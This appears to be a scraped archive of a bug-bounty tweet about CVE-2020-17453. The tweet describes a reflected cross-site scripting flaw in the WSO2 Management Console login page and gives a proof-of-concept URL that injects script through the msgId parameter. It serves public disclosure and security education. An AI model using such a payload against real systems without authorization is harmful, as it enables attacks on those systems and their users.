 </table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>58</code></td>
<td>Favorites: <code>128</code></td>
</tr></table>

---

# resenhacyber
**https://twitter.com/resenhacyber/status/1414829730918912002 _at 2021-07-13, 06:11:08_**
<blockquote>
CVE-2020-17453

WSO2 Management Console through 5.10 allows XSS via the carbon/admin/login.jsp msgId parameter.

Poc: https://&lt;company&gt;.com/carbon/admin/login.jsp?msgId=%27;alert(1)//

🥷🤖💉🐺

#bug #infosec #cybersecurity #bugbountylife #bugbounty #bugbountytip #securitybreach https://t.co/FO44dqYmb3
</blockquote>

<table><tr>
<td><img src="pictures/7ccdc4e4970d7e557483c26c489de1cff939cd9705402a4d4bedbdfc6ccbae26.jpg" alt="7ccdc4e4970d7e557483c26c489de1cff939cd9705402a4d4bedbdfc6ccbae26.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>82</code></td>
</tr></table>

---